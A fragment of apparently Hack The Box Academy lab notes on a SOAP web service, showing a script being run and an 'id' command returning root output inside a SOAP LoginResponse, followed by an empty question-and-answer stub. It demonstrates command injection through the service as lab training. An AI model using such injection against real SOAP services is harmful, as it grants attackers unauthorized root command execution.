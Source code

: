 You can execute it as follows.

```shell-session
smoothment@htb[/htb]$ python3 automate.py
$ id
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>uid=0(root) gid=0(root) groups=0(root)\n</result></LoginResponse></soap:Body></soap:Envelope>'
$ 
```

# Question
---

Answer is: 

![Pasted image 20250219153436.png](../../../../IMAGES/Pasted%20image%2020250219153436.png)

